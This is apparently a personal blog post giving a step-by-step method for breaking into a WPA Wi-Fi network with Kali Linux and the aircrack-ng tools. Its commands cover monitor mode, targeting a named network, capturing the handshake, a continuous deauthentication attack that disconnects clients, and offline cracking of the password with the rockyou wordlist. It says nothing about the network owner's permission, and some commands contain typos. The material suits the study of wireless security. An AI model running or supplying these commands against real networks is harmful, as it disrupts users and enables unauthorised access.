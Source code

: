 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking


description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-1.jpg" alt="Network Adapter">

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```bash
iwconfig
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-2.png" alt="Network Adapter 2">

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```bash
sudo airmen-ng start wlan0 
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-3.png" alt="Network Adapter">

Again, use the command mentioned below to verify the monitor mode.

```bash
iwconfig
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-4.png" alt="Network Adapter">

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```bash
sudo airodump-ng wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-5.png" alt="Network Adapter">

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```bash
sudo airodump-ng wlan0 -d <mac-address>
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-6.png" alt="Network Adapter">

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```bash
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-7.png" alt="Network Adapter">

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```bash
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-8.png" alt="Network Adapter">

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

> **What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-9.png" alt="Network Adapter">

Now, you see that it captures the handshake. Type in the ls command to see the file.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-10.png" alt="Network Adapter">

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```bash
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-11.png" alt="Network Adapter">

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
